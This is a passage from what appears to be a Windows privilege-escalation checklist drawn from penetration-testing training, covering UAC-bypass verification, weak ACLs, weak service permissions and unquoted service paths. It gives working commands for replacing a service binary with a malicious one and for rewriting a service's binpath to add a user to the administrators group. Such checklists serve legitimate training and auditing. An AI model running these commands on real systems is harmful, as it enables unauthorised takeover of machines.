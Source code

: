 #### Verification
- [ ] Verify elevated privileges on the received shell:
  ```shell
  whoami /priv
  ```

#### Tools and Resources
- [UACME Project](https://github.com/hfiref0x/UACME) for UAC bypass techniques.
- [Windows 10 Version History](https://en.wikipedia.org/wiki/Windows_10_version_history) for cross-referencing build numbers.
- [Blog Post on UAC Bypass](https://egre55.github.io/system-properties-uac-bypass) for detailed steps on bypassing UAC.

---
### Weak Permissions

#### Permissive File System ACLs
- [ ] **Run SharpUp to Check for Weak ACLs**
  - Command: `.\SharpUp.exe audit`
  - Tool: [SharpUp](https://github.com/GhostPack/SharpUp/)

- [ ] **Verify Permissions with icacls**
  - Command: `icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`
  - Tool: [icacls](https://ss64.com/nt/icacls.html)

- [ ] **Replace Service Binary**
  - Backup original binary and replace with malicious binary.
  - Command: 
    ```
    cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
    sc start SecurityService
    ```

#### Weak Service Permissions
- [ ] **Review SharpUp Output for Modifiable Services**
  - Command: `SharpUp.exe audit`

- [ ] **Check Permissions with AccessChk**
  - Command: `accesschk.exe /accepteula -quvcw WindscribeService`
  - Tool: [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

- [ ] **Change Service Binary Path**
  - Command: `sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"`

- [ ] **Stop and Start the Service**
  - Stop Command: `sc stop WindscribeService`
  - Start Command: `sc start WindscribeService`

- [ ] **Confirm Local Admin Group Addition**
  - Command: `net localgroup administrators`

#### Unquoted Service Path
- [ ] **Search for Unquoted Service Paths**
  - Command: `wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """`
